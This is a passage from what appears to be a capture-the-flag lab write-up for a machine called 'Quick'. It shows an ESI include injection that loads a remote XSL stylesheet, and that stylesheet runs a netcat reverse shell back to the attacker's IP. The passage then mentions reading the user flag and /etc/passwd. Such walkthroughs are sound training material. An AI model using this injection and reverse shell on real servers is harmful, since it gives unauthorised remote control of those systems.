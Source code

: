 Now let's start a netcat listener and execute a reverse shell back to us. 

```xml
<!-- <esi:include /> -->
<esi:include src="http://10.10.14.29:8888/exec.xsl" stylesheet="http://10.10.14.29:8888/exec.xsl"></esi:include>
```

```xml
<!-- exec.xsl -->
<xsl:variable name="cmd">
        <![CDATA[
                nc -e /bin/sh 10.10.14.29 8000
        ]]>
</xsl:variable>
```

After upgrading to a full interactive shell with python3, let's grab the user flag from `/home/sam`. 

![974e43dbdb8a43d8d0cf6b87c7f289ef.png](/images/htb-quick/76407786a5ef4b6593885190fa58782e.png)

### 5. SSH, Further Enumeration

Let's next take a look at `/etc/passwd`. 
